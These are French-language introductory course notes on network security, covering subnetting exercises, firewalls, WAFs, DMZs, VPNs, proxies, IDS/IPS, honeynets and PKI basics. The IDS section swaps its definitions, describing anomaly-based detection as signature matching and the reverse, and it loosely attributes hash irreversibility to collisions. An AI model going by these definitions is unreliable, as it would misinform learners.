Introduction à la sécurité réseau (vulgarisation) :
Objectifs :
-
Différencier un réseau interne et externe
-
Présenter des outils de sécurité réseau
-
Décrire les failles des protocoles de la pile TCP/IP
Durant ce cours, je ferai souvent une analogie avec le domaine immobilier afin d'imager mes propos.
Un réseau informatique peut être comparé au domicile dans lequel on vit. En effet, certaines parties comme le jardin ou un emplacement de parking sont accessibles depuis l'extérieur. Tandis que d'autres, tel que votre salon ou cuisine ne le sont pas.
Ceci n'est pas un immeuble !
Qu'est-ce qu'un réseau ?
Définition :
Un réseau informatique est un ensemble de périphériques reliés entre eux pour échanger des données.
-
Données
-
Protocoles
-
Identifiants
-
Périphériques
-
Moyens de transmission
-
Modèle de référence
-
LAN/WAN/SOHO
Ressources sensibles :
Un réseau permet d'échanger des données entre un ou plusieurs périphériques. Cependant, dans un réseau, certaines données ne doivent être accédées que de certains utilisateurs. Prenons le diagramme ci-dessous, comment pouvons-nous autoriser l'accès uniquement aux personnes du secrétariat ?
Deux personnes dont la cohabitation n'est pas possible.
Solution : segmentation :
La segmentation réseau est une technique ayant pour objectif de diviser un réseau informatique en plusieurs sous-réseaux. La segmentation permet :
-
d'augmenter les performances du réseau
-
d'améliorer sa sécurité
Segmentation réseau : performance :
Les protocoles réseaux sont très verbeux dans leurs communications. Les périphériques réseaux utilisent beaucoup de leurs ressources à traiter des informations qui ne leur sont pas destinées.
-
DHCP
-
ARP
-
etc.
Segmentation réseau : sécurité :
Des ressources ayant une exigence de sécurité ou un niveau d'accessibilité différent ne doivent pas se trouver dans un même réseau.
Par exemple, un étudiant ne doit pas avoir accès aux mêmes informations que le secrétariat.
Le secrétariat peut accéder à certaines applications administratives sensibles, tandis que l'étudiant ne doit voir que les ressources qui le concerne.
Sur l'image ci-dessus, on voit plusieurs périphériques connectés à un même switch : le PC du directeur, le PC de l'enseignant, le PC de l'étudiant et un serveur web.
Comment pourrions-nous segmenter ce réseau ?
Pour segmenter un réseau, il faut d'abord connaître le contexte et les besoins de sécurité de chaque entité.
Ici, on pourrait le diviser en quatre segments distincts, un pour chaque groupe d'utilisateurs :
-
un réseau pour le directeur,
-
un réseau pour les enseignants,
-
un réseau pour les étudiants,
-
et un réseau pour le serveur web.
Ainsi, chacun aurait accès uniquement aux ressources qui lui sont destinées.
Segmentation réseau : stratégies :
La segmentation réseau se fait en fonction des besoins de l'entreprise. On ne peut pas décider de la segmentation simplement en regardant un schéma ou une photo du réseau : il faut d'abord poser des questions pour bien comprendre le contexte et les objectifs de sécurité. Ci-dessous, des exemples de besoins de segmentation :
-
par département : RH, Comptabilité, etc.
Chaque département a ses propres données et applications.
-
par périmètre applicatif (environnement technique) : le développement (DEV), la qualification (QUA), la production (PRD)
En général, on ne veut pas qu'une base de données située dans l'environnement de développement puisse communiquer avec une application en production.
La segmentation permet donc d'isoler ces environnements afin d'éviter les échanges involontaires ou dangereux entre eux.
-
par type de ressources : public ou privé
Par exemple, une ressource accessible depuis Internet sera isolée dans une zone spécifique (souvent appelée DMZ).
Ainsi, si un utilisateur non autorisé essaie d'accéder à une ressource qui ne lui appartient pas, son accès sera bloqué.
En résumé, la segmentation réseau est une manière simple et efficace de prévenir les intrusions et, si elles se produisent, de contenir les attaques et incidents.
Un utilisateur se verra refuser l'accès s'il souhaite s'introduire dans un réseau non autorisé. C'est une façon simple de prévenir, sinon de contenir les attaques et incidents.
Comment segmente-t-on un réseau ?
Valeurs de référence : 128, 64, 32, 16, 8, 4, 2, 1
Divisez le "range" 10.10.10.0/24 afin d'obtenir un sous-réseau contenant 25, 36 et 100 utilisateurs.
Comment procéder ?
-
Triez les sous-réseaux de manière décroissante en fonction de leur taille.
-
Identifiez le nombre de bits nécessaires afin de répondre au besoin.
-
Calculez l'identifiant réseau et l'adresse de broadcast du sous-réseau le plus grand (non calculé).
-
Calculez le réseau suivant à partir du nouveau "range" obtenu.
Exemple : un sous-réseau contenant 100 utilisateurs. Le 8ème bit nous permet d'obtenir au moins le nombre d'hôtes souhaités. Le réseau obtenu est maintenant 10.10.10.0/25 avec l'adresse de broadcast 10.10.10.127. Quels sont les réseaux suivants ?
Exercice segmentation :
-
10.10.0.2/24 et 10.10.10.1/24 sont-ils dans le même réseau ?
Non, car leurs adresses réseau sont 10.10.0.0 et 10.10.10.0, donc réseaux différents.
-
Combien d'adresses assignables possède le réseau 10.10.10.0/25 ?
/25 = 128 adresses totales → 126 assignables (on retire réseau + broadcast).
-
Quel masque de sous-réseau permet de contenir 32 utilisateurs ?
Il faut au moins 34 adresses (32 + réseau + broadcast) → /27 (255.255.255.224).
-
Quelle est l'adresse de diffusion ainsi que l'identifiant du réseau 10.10.0.0/23 ?
Plage = 10.10.0.0 → 10.10.1.255. Réseau : 10.10.0.0. Broadcast : 10.10.1.255
Se protéger des menaces externes :
Il est nécessaire d'identifier le type de réseau que l'on souhaite sécurisé. En effet, sécuriser un appartement privé et un magasin ne se fait pas de la même manière.

-
Intranet : ressources internes non accessibles depuis Internet. Correspond à un appartement privé.
-
Extranet : ressources internes que l'on met à disposition sur Internet. Correspond à une partie publique de notre appartement. Exemple : le jardin.
-
Internet : ressources externes publiques. Exemple : une rue.
Chaque type de réseau nécessite donc une approche de sécurité différente. On ne protège pas un espace privé de la même manière qu'un espace public.
De quelle manière protégeons-nous l'accès à un lieu ?
Firewall : porte d'entrée :
On souhaite protéger les informations et limiter l'accès à certaines ressources. Pour faire une analogie simple, c'est comme une porte d'entrée : elle permet de contrôler qui peut entrer dans la maison.
C'est exactement le rôle d'un firewall (pare-feu).
Le but du firewall est de fournir une connectivité contrôlée et maîtrisée à notre réseau (basée sur le principe du moindre privilège). Le filtrage se fait selon divers critères. Les plus courants sont :
-
l'origine ou la destination des paquets (adresse IP, ports TCP ou UDP, interface réseau, etc.);
-
les options contenues dans les données (fragmentation, validité, etc.);
-
les données elles-mêmes (taille, correspondance à un motif, etc.);
-
le nom de domaine (couche ?).
Un firewall classique se concentre principalement sur la couche 3 (réseau) et la couche 4 (transport) du modèle OSI, car il annalyse les adresses IP et les ports.
Sur l'image, la porte est fermée, mais une petite ouverture permet au chat de passer. C'est pareil pour le firewall : il bloque tout sauf les flux de communication que l'on a décidé d'accepter.
En résumé, un firewall permet de bloquer certaines connections et de n'autoriser que celles qui sont légitimes. Il permet donc de protéger notre réseau tout en laissant passer uniquement le trafic autorisé.
Les types de firewall :
Il existe plusieurs types de firewall, selon l'endroit où ils sont installés et leur rôle dans la protection du réseau :
-
machine (host) : surveille en permanence toutes les transmissions vers et depuis un ordinateur.
Il décide de bloquer ou d'autoriser les connexions selon les règles définies. C'est une protection locale, propre à un seul poste.
-
réseau : porte entre le réseau interne qui doit être sécurisé et le système externe comme Internet.
Ce type de firewall contrôle les flux qui entrent et sortent du réseau, et décide lesquels sont autorisés à passer.
En résumé, le firewall machine protège un seul appareil, tandis que le firewall réseau protège l'ensemble d'un réseau.
Exemple de configuration firewall :
Web Application Firewall (couche 7) :
Le Web Application Firewall (WAF) protège vos applications Web en filtrant, surveillant et bloquant tout trafic HTTP(S) malveillant se dirigeant vers votre application Web.
Il s'agit d'un reverse proxy chargé de protéger vos applications des attaques les plus courantes :
-
SQL injection
-
Cross-site scripting (XSS)
-
Session hijacking (ou détournement de session)
-
Distributed denial of service (DDoS) attacks (ou attaques par déni de service)
-
Cookie poisoning
-
Parameter tampering (ou modification de paramètres)
Lorsqu'une requête arrive, le WAF l'analyse et la compare à une base de données de failles connues, souvent inspirée du Top 10 OWASP, qui répertorie les attaques web les plus fréquentes.
S'il détecte un comportement dangereux, il bloque la requête avant qu'elle n'atteigne le serveur.
Par exemple, si une application attend un identifiant numérique dans un champ "ID" mais reçoit à la place une commande SQL, le WAF considérera cela comme suspect et bloquera la requête.
Cependant, il faut faire attention : un WAF peut aussi générer des faux positifs, c'est-à-dire bloquer des requêtes légitimes s'il interprète mal certaines données.
C'est pourquoi l'application web doit être conçue pour fonctionner avec un WAF afin que celui-ci reconnaisse les données normales de l'application et n'interfère pas avec son fonctionnement.
En résumé, le WAF filtre le trafic HTTP/S en se basant sur des modèles connus d'attaques. Il sert à protéger l'application web sans avoir besoin de modifier son code, tout en offrant une couche de sécurité supplémentaire contre les menaces externes.
Comment segmenter ce réseau (intranet) ?
Comment expose-t-on nos ressources publiques ?
DMZ : jardin :
Certaines parties de notre domicile sont accessibles sans avoir à passer par notre porte d'entrée (firewall). Exemple, lorsque nous décorons un jardin, une façade avec des décorations de Noël, celles-ci sont accessibles à tout le monde sans pour autant donner accès à notre domicile.
À l'image de notre jardin, l'architecture DMZ rend accessible certaines ressources sans pour autant exposer notre réseau local.
Les serveurs sont protégés par des firewalls qui contrôlent les communications entre Internet, la DMZ et le réseau interne.
Ainsi, même si un serveur de la DMZ est compromis, l'attaquant n'aura pas accès directement au réseau interne car la DMZ agit comme une zone tampon.
En résumé, la DMZ permet de publier des ressources sur Internet tout en limitant les risques pour le reste de l'infrastructure.
C'est une pratique essentielle pour toute entreprise qui expose des services publics tout en voulant garder son réseau local sécurisé.
DMZ : extranet :
Lorsqu'une entreprise veut rendre certaines de ses ressources accessibles depuis Internet, comme un site web ou une application hébergée sur un serveur, il faut trouver un moyen de les exposer sans pour autant mettre en danger le réseau interne.
La solution la plus courante en architecture réseau est d'utiliser une DMZ.
La DMZ (DeMilitarized Zone) est un sous-réseau isolé de notre réseau local contenant des ressources que l'on souhaite rendre accessibles depuis l'extérieur (ex: extranet). Le nom provient de la zone coréenne démilitarisée.
Dans cet exemple, un utilisateur externe se connecte depuis Internet. Sa requête passe d'abord par un firewall externe qui le redirige vers la DMZ.
Dans cette DMZ se trouve l'extranet, c'est-à-dire les serveurs web ou les applications accessibles depuis l'extérieur. Ces serveurs peuvent eux-mêmes avoir besoin d'accéder à certaines données internes, situées dans l'intranet.
Pour éviter qu'un accès direct ne soit possible, il existe un second firewall placé entre la DMZ et l'intranet. Ce firewall contrôle strictement les communications qui partent de la DMZ vers le réseau interne.
Si on reprend l'analogie de la maison :
-
Le premier firewall (entre l'internet et la DMZ) est la porte d'entrée. Il bloque la majorité des visiteurs et n'autorise que ceux qui doivent accéder au jardin (la DMZ).
-
Le second firewall (entre la DMZ et l'intranet) est le portillon. Il offre une barrière supplémentaire permettant un accès limité à certaines parties de la maison, mais jamais directement à l'intérieur.
Ainsi, même si un serveur de la DMZ est compromis, ce double filtrage empêche un attaquant d'atteindre le réseau interne.
C'est une bonne pratique de sécurité : séparer les zones d'exposition (DMZ) des zones sensibles (intranet) par plusieurs niveaux de protection.
Quelle serait une analogie au firewall devant notre intranet ?
Comment accéder à notre réseau privé ?
Exercice : architecture :
-
Dessinez deux réseaux (private LAN + DMZ)
-
Ajoutez un firewall + WAF
Comment accède-t-on aux ressources de notre réseau privé ?
VPN : passage secret vers l'intranet :
Parfois, on souhaite donner accès à notre intranet à des personnes qui ne se trouvent pas physiquement dans notre réseau, par exemple à des employés en télétravail ou à des partenaires externes.
Pour cela, on met en place un VPN.
Le Virtual private Network (VPN) crée un tunnel sécurisé entre votre système et le système distant.
Ce tunnel permet d'échanger des données comme si l'utilisateur était directement connecté au réseau local, tout en assurant la confidentialité et l'intégrité des informations transmises.
L'analogie avec les tunnels de Cu Chi au Vietnam illustre bien ce principe : les soldats pouvaient circuler entre différents points sans être vus par l'ennemi.
De la même manière, avec un VPN, les communications passent à travers Internet, mais de manière chiffrée et invisible pour les attaquants.
Un VPN crée un réseau privé virtuel qui camoufle/chiffre les données transmises.
Les données chiffrées interceptées lors de la transmission ne pourront pas être déchiffrées.
-
privé : les données ne sont accessibles qu'après avoir établi une connexion.
-
virtuel : il s'agit de deux réseaux privés traversant l'Internet.
Le VPN offre une réduction du coût de communication car il ne nécessite pas une liaison privée physique (ligne louée dédiée). Le chiffrage des données offre : confidentialité, intégrité des données et l'authentification.
Le VPN présente aussi un avantage économique.
Pourquoi ? Parce qu'il permet de relier plusieurs sites distants sans devoir installer de liaison privée dédiée qui coûterait beaucoup plus cher.
Par exemple, si une entreprise située à Bruxelles veut communiquer avec un site distant, elle a deux possibilités :
-
mettre en place une liaison privée entre les deux sites, ce qui est fiable mais très onéreux;
-
ou utiliser un VPN qui crée un tunnel sécurisé à tavers Internet.
La seconde solution est la plus utilisée car elle offre la même sécurité qu'une liaison privée mais a un coût bien moindre.
Site à site :
Un VPN site à site sert à relier des réseaux distants. Exemple : maison mère et succursale.
L'objectif est que les deux sites puissent échanger des données comme s'ils faisaient partie du même réseau local.
Dans ce type de configuration, ce sont les routeurs qui se chargent de mettre en place les tunnels VPN entre les deux sites.
Une fois le tunnel établi, les utilisateurs de chaque site peuvent accéder aux ressources de l'autre site de manière transparente et sécurisée, sans avoir besoin de se connecter manuellement à un VPN individuel.
En résumé, le VPN site à site simplifie la communication entre plusieurs implantations d'une même organisation tout en assurant la confidentialité et l'intégrité des échanges.
Accès à distance :
Ce type de VPN connecte des utilisateurs finaux au réseau local privé. C'est le type de VPN le plus courant.
Il est utilisé notamment pour le télétravail : depuis chez soi, par exemple dans son salon, un employé peut se connecter à distance au réseau interne de son entreprise comme s'il était physiquement au bureau.
Quel outil protège les clients lorsqu'ils communiquent sur Internet ?
Dans un réseau, on a plusieurs machines hôtes connectées à un même sous-réseau. Si l'on veut protéger leurs communications ou contrôler l'accès aux ressources auxquelles elles peuvent se connecter sur Internet, on utilise un proxy.
Proxy : le protecteur (man in the middle) :
Lorsqu'un enfant souhaite sortir, il doit demander au préalable l'autorisation à ses parents.
À l'image du parent qui autorise ou non la sortie, le serveur proxy peut interdire certaines requêtes.
Le proxy joue le rôle d'intermédiaire entre le client et Internet. Ce rôle permet de filtrer les communications ou encore de cacher les communications effectuées.
Il peut également rediriger l'utilisateur vers une page souhaitée (ex : Kazakhstan).
Le proxy peut aussi enregistrer les actions effectuées : quelles pages ont été visitées, à quelle heure, etc.
Contrairement à un firewall qui se contente de bloquer ou d'autoriser le trafic selon des règles simples (port ouvert ou fermé), le proxy analyse le contenu des requêtes. Il peut, par exemple, autoriser une connexion vers un site spécifique (comme une école), mais bloquer l'accès à d'autres.
C'est pour cela qu'on le compare à un "man in the middle" (homme du milieu) : il intercepte, lit et retransmet la communication.
En entreprise, tout le trafic Internet passe souvent par un proxy.
Quand on ouvre une page web, la requête n'est pas envoyée directement vers le site distant (par exemple StackOverflow), mais vers le proxy qui l'examine avant de la relayer.
Le proxy peut même déchiffrer les connexions HTTPS, lire le contenu, puis réémettre la requête avec son propre certificat.
C'est pour cela que, sur un ordinateur professionnel, on voit souvent un certificat de l'entreprise plutôt qu'un certificat public connu; cela prouve que le proxy lit et filtre tout le trafic sortant.
Cette pratique permet à l'entreprise de :
-
bloquer les sites malveillants,
-
contrôler la bande passante (par exemple : interdire le streaming),
-
et surveiller les activités des employés.
Enfin, il faut bien distinguer le proxy du VPN :
-
Le VPN chiffre la communication de bout en bout entre deux points (sécurisés).
-
Le proxy, lui, fait seulement office d'intermédiaire sans garantir le chiffrement.
En résumé, le proxy est un point de passage obligatoire avant Internet : il autorise ou bloque les requêtes et peut voir ou modifier ce qui transite à travers lui.
Configuration client : proxy transparent :
Chaque client doit être configuré pour utiliser le serveur proxy.
À l'image d'un enfant rebelle, un client pourrait décider de ne pas utiliser le serveur proxy. Le proxy transparent est une solution à ce problème.
Le proxy transparent intercepte la requête avant de la transmettre au fournisseur. Les proxys transparents sont considérés comme transparents car l'utilisateur n'en a pas connaissance.
C'est un peu comme un firewall : on ne vot pas qu'il est là, mais il filtre discrètement le trafic avant qu'il n'atteigne sa destination.
Reverse proxy :
Un proxy inversé (reverse proxy) est un type de serveur, habituellement placé en frontal de serveurs web.
Le proxy est dit inversé car le client n'a pas connaissance de l'adresse réelle du serveur qu'il accède.
-
WAF (Azure)
-
Load balancer (Azure)
-
Etc.
Tous les deux se situent dans la couche 7 du modèle OSI car ils analysent les requêtent au niveau applicatif.
Firewall VS proxy :
Un firewall de base permet de filtrer une communication sur base des informations de la couche réseau/transport (IP + port).
Le proxy, quant à lui, offre un filtrage applicatif. Il offre également des fonctionnalités de cache.
Les deux fonctions peuvent être réalisées par le même composant réseau.
Exercice : architecture :
-
Ajoutez un proxy et un VPN à votre réseau.
Intrustion Detection System (IDS) :
Afin de protéger son habitat, il existe différentes techniques, telles que :
-
les détecteurs de mouvement
-
les détecteurs de fumée
-
etc.
À l'instar de nos habitats, il existe des techniques afin d'identifier une intrusion dans notre réseau.
Ce système n'est pas fiable à 100% (faux positif et faux négatif).
Types d'IDS :
L'IDS écoute le trafic de manière furtive dans le but d'identifier une communication suspecte.
-
AIDS (Anomaly-based Intrusion Detection System) : reposent sur une base de données d'attaques connues. Il ne stoppe donc pas ce qu'il ne connait pas.
-
SIDS (Signature-based Intrusion Detection System) : après avoir pris connaissance de la manière dont est utilisée le réseau, le système pourra identifier une utilisation jugée anormale.
L'IDS détecte mais n'agit pas.
Intrusion Prevention System (IPS) :
Certaines maisons comprennent des extincteurs automatiques à eau déclenchés lorsque de la chaleur, de la fumée ou une flamme est détectée.
À l'image des extincteurs automatiques, les réseaux informatiques possèdent des outils afin de réagir après la réception d'un message de l'IDS.
Ce système n'est pas fiable à 100% (faux positif et faux négatif).
IDS VS IPS :
La principale différence entre l'IPS et l'IDS est l'action prise lorsqu'une menace potentielle est détectée.
-
IPS réagit et prend une action afin de protéger le réseau contre les attaques potentielles.
-
IDS se contente de surveiller le réseau et d'envoyer des alertes aux administrateurs ou à l'IPS si une menace est détectée.
Les deux fonctions peuvent être réalisées par le même composant réseau (avec fonction de firewall).
Honeynet : vulnérabilités intentionelles :
Un honeynet est une infrastructure/réseau qui fait office d'appât afin d'attirer et d'occuper toutes personnes mal intentionnées.
Lorsqu'une requête est jugée suspecte par l'IDS ou l'IPS, au lieu de la bloquer directement, on peut la rediriger vers ce réseau contrôlé.
Dans ce honeynet, on observe et analyse le comportement de l'attaquant : quelles actions il tente (scan, recherche de serveurs, exploration de services, etc.), et comment il essaie d'exploiter une faille.
L'objectif n'est pas de bloquer, mais de comprendre et étudier les attaques pour renforcer la sécurité du réseau principal.
L'infrastructure à clés publiques et TLS :
Pour cette partie du cours, on doit installer la dernière version de OpenSSL dans le dossier C:\OpenSSL par exemple.
Ensuite, on rajoute OpenSSL au PATH via PowerShell avec la commande suivante :
setx PATH "$($env:PATH);C:\OpenSSL\bin"
Les parenthèses $() indiquent à PowerShell d'évaluer la commande à l'intérieur avant de la convertir en chaîne. Cela force PowerShell à insérer la valeur réelle du $env:PATH sans confusion ni mauvaise expansion. C'est donc la méthode la plus sûre et la plus propre, surtout si ton PATH est long ou complexe.

setx PATH "$env:PATH;C:\OpenSSL\bin"
Lors de la commande précédente, PowerShell insère directement la valeur brute de la variable d'environnement PATH. Cela fonctionne dans 95% des cas. Mais attention : si $env:PATH contient des caractères spéciaux, PowerShell peut les interpréter (espaces, &, (, etc.) et ça peut casser la commande.
Ou encore en CMD (invite de commandes Windows) avec la commande suivante :
setx PATH "%PATH%;C:\OpenSSL\bin"Enfin, on vérifie l'installation d'OpenSSL avec la commande suivante :
openssl versionPour vérifier que la variable d'environnement PATH a été mise à jour, on peut taper la commande suivante dans un PowerShell :
$env:PATH -split ';'Cela affiche chaque dossier du PATH ligne par ligne. Ou encore, dans un terminal CMD classique, on peut vérifier avec la commande :
echo %PATH%Cela permet de voir que ton chemin a été ajouté à la fin du PATH.
Sujet du jour : Public Key Infrastructure (PKI) :
La PKI est un ensemble de composants hardware, de procédures humaines (vérifications, validations) et de logiciels destinés à gérer les clés de chiffrement.
La PKI offre une communication sécurisée (authentifiée) entre des parties qui ne se sont jamais rencontrées auparavant.
Le modèle s'appuie sur des tiers de confiance appelés autorités de certification pour émettre des certificats auxquels nous faisons entièrement confiance.
Sécuriser des données numériques : besoin :
Une communication réseau introduit des contraintes de sécurité telles que :
-
La manière de s'authentifier sur le réseau.
Par exemple, entre deux protocoles de routage : chaque routeur doit s'assurer qu'il parle bien au bon routeur. De même, quand on accède à un serveur web, on veut être sûr de parler au bon serveur.
-
La garantie que personne n'écoute la communication afin d'éviter le "sniffing".
Les données envoyées doivent arriver intactes jusqu'au serveur, sans interception ni altération.
-
La garantie de communiquer avec le bon interlocuteur.
C'est-à-dire vérifier que le serveur ou la personne avec qui on communique est bien celui ou celle qu'il prétend être.
La PKI est une solution pour authentifier des communications à distance (in transit).
Sécuriser des données numériques : solution :
Le chiffrement des données consiste à rendre les données totalement incompréhensibles aux personnes qui ne sont pas habilitées à les traiter.
-
Hachage :
Une fonction de hachage transforme un message de taille arbitraire en un message de taille fixe.
-
Garantir l'intégrité des données
-
Message Authentication Code (MAC)
-
Checksum
-
Table de hachage
-
Git
-
MD5, SHA
On peut voir le hachage comme une boîte : on y fournit des informations de taille quelconque et cette boîte renvoie en sortie un résultat (output) de taille fixe.
Donc, l'input peut être variable, mais la sortie sera toujours d'une taille bien définie.
Ce principe de hachage, on le retrouve dans plusieurs domaines:
-
Dans le réseau, à travers les checksums qui sont calculés sur base de fonctions de hachage.
-
En programmation : dans les tables de hachage.
-
Dans Git où chaque commit a un identifiant basé sur une fonction de hachage.
Sur le schéma ci-dessus, on voit différents prénoms de tailles différentes, mais la sortie ("hash") est toujours du même format.
On remarque aussi que deux prénoms différents peuvent donner la même valeur. C'est pour cela qu'il est très difficile de revenir en arrière, c'est-à-dire de retrouver la valeur d'origine à partir du hash.
En théorie, ce n'est pas possible de faire le chemin inverse.
En résumé, une fonction de hachage reçoit des informations de taille arbitraire et produit une sortie de taille fixe.
En gros, revenir en arrière est théoriquement impossible car plusieurs valeurs différentes peuvent donner le même résultat.
Qu'apporte une fonction de hachage ?
-
Intégrité : une fonction de hachage garantit que les données n'ont pas été modifiées. Pourquoi ?
Si on applique la même fonction de hachage sur les mêmes données, on doit toujours obtenir la même valeur en sortie.
Si la valeur change, cela veut dire que les données ont été altérées.
-
Pas de confidentialité : pas assurée par la fonction de hachage seule; nécessite un chiffrement séparé.
Elle ne chiffre pas les données. Donc, n'empêche pas quelqu'un de lire l'information si elle est interceptée.
-
Pas d'authentification : assurée par une signature numérique, qui combine une fonction de hachage avec un chiffrement à clé privée.
Recevoir un hash ne garantit pas qu'il vient bien de la bonne personne. Ce principe seul ne permet donc pas de prouver l'identité de l'émetteur.
En résumé, la fonction de hachage garantit uniquement l'intégrité des données, pas la confidentialité ni l'authentification.
Reprenons le schéma ci-dessus et imaginons qu'on envoie le nom "John Smith" et que la fonction de hachage nous donne la valeur 02.
Quelqu'un d'autre nous renvoie ensuite un hash en prétendant que c'est celui de John Smith, mais cette fois la valeur est 03.
Si on refait le calcul de notre côté et qu'on obtient un résultat différent, on peut en conclure que les données ont été modifiées pendant le transfert.
C'est ça le principe d'intégrité : on recalcule le hash à la réception et on le compare à celui reçu.
S'ils sont identiques, les données sont restées intactes mais, s'ils sont différents, cela signifie qu'elles ont été altérées.
-
-
Chiffrage symétrique :
Le chiffrement symétrique est le type de chiffrement le plus simple.
Le chiffrement symétrique utilise la même clé secrète pour le chiffrement et le déchiffrement.
L'avantage du chiffrement à clé symétrique est sa rapidité d'exécution.
Il ne demande pas de calculs complexes : on applique simplement la clé pour transformer ou récupérer le message.
C'est pour cela qu'il est très efficace et rapide d'un point de vue computationnel.
Sur l'image, on a donc un message en entrée, on applique la clé pour obtenir un message chiffré. Pour le lire, il suffit d'utiliser la même clé.
Algorithmes : AES, DES
Le chiffrement symétrique protège le contenu (confidentialité) car, sans la clé, on ne peut pas lire le message. Quel est l'inconvénient de ce type de chiffrement ?
L'inconvénient majeur est le partage de la clé.
Imaginons deux entités qui souhaitent échanger des données de manière chiffrée. L'une possède déjà la clé tandis que l'autre ne l'a pas encore.
Le problème qui se pose est alors le suivant : comment transmettre cette clé sans qu'elle soit interceptée sur le réseau ?
C'est là toute la difficulté du chiffrement symétrique : la clé doi être échangée de façon sécurisée car si elle est compromise l'ensemble du système de chiffrement l'est également.
Challenge : comment transmettre la clé ?
-
Chiffrage asymétrique :
Il s'agit d'un chiffrement utilisant deux clés différentes afin de déchiffrer des données. Les deux clés possèdent une relation mathématique permettant ainsi le chiffrage et déchiffrage d'informations. Une clé est dite privée (non partagée) et l'autre est dite publique (partagée).
Ce qui est chiffré avec l'une peut être déchiffré uniquement avec l'autre.
Autrement dit, si une information est chiffrée avec la clé privée, seule la clé publique correspondante permettra de la déchiffrer et inversement.
Ainsi, même si la clé publique est interceptée, cela ne pose aucun risque car elle ne permet pas d'accéder à la clé privée.
Algorithmes : RSA, Diffie-Hellman
Le chiffrement symétrique assure la confidentialité mais pas l'authentification, tandis que le chiffrement asymétrique garantit à la fois confidentialité et authentification.
Ce système est plus lourd en calcul que le chiffrement symétrique car il implique plusieurs opérations de chiffrement et de déchiffrement.
Quelqu'un peut m'expliquer le déroulement d'une communication ?
Dans une communication entre deux entités:
-
Chaque entité possède sa propre paire de clés (une clé publique et une clé privée).
-
Pour sécuriser un échange, le message peut être chiffré deux fois :
-
D'abord avec la clé privée de l'expéditeur (pour garantir l'authenticité).
-
Puis avec la clé publique du destinataire (pour garantir la confidentialité).
Le destinataire effectuera alors deux déchiffremet dans l'ordre inverse :
-
avec sa clé privée pour retrouver le message chiffré par sa clé publique;
-
avec la clé publique de l'expéditeur pour vérifier l'origine du message.
-
-
Dans ce cours, on va surtout aborder la théorie de ces concepts.
Les aspects plus pratiques notamment liés à la PKI et à la cryptographie appliquée seront traités plus en détails dans le cours de cryptographie de Mr François Koeune.
Signature digitale :
La signature digitale permet d'établir un lien entre le document et le signataire.
-
Fonction de hachage : intégrité (pourquoi pas de confidentialité ?)
-
Chiffrement : confidentialité/authentification
-
Non répudiation : fonction de hachage + authentification
Le principe est le suivant :
-
On prend une donnée (un fichier, un message, ...).
-
On la hache pour obtenir une valeur (un hash).
-
Ce hash est chiffré avec la clé privée du signataire.
-
Le résultat devient la signature digitale jointe au document.
Pour vérifier :
-
Le destinataire déchiffre la signature avec la clé publique du signataire.
-
Il re-hache le fichier reçu.
-
Il compare les deux valeurs : si elles sont identiques, le fichier n'a pas été modifié et vient bien du signataire mais, si elles sont différentes, le fichier a été altéré.
Ce principe est aussi utilisé pour les certificats numériques : on vérifie que le certificat a bien été signé par l'autorité correspondante et qu'il n'a pas été modifié.
Quelle est la limite du chiffrement à clé publique ?
Le hachage garantit que la donnée n'a pas été modifiée (Intégrité).
Le chiffrement symétrique est rapide mais il pose un problème de partage de clé : il faut trouver un moyen sûr pour transmettre cette clé à l'autre partie.
Le chiffrement asymétrique résout ce problème car il respose sur deux clés : une clé publique et une clé privée.
On peut donc communiquer sans devoir échanger une clé secrète.
Cependant, ce type de chiffrement est plus lent car il demande plus de calculs.
Mais il y a aussi une limite importante : même si la clé publique peut être partagée librement, rien ne garantit qu'il vient bien de la bonne personne.
Par exemple : si quelq'un intercepte la communicaton et remplace la clé publiqe de l'expéditeur par la sienne, il pourra tromper le destinataire. Celui-ci pensera communiquer avec la bonne personne alors qu'en réalité il parle avec un attaquant.
